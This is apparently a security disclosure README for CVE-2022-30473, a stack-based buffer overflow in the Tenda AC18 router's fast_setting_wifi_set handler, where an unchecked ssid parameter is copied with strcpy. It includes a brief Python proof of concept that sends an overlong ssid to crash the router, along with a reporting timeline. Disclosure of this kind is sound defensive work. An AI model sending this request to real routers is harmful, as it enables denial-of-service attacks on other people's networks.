

# Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/fast_setting_wifi_set` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `form_fast_setting_wifi_set`.

In function `form_fast_setting_wifi_set` it reads user provided parameter `ssid` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `s`.



So by requesting the page `/goform/fast_setting_wifi_set`, the attacker can easily perform a **Deny of Service Attack**.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fast_setting_wifi_set?"
url += "ssid=" + "s" * 100

response = requests.get(url)
```

## Timeline

* 2022-05-06: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30473)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
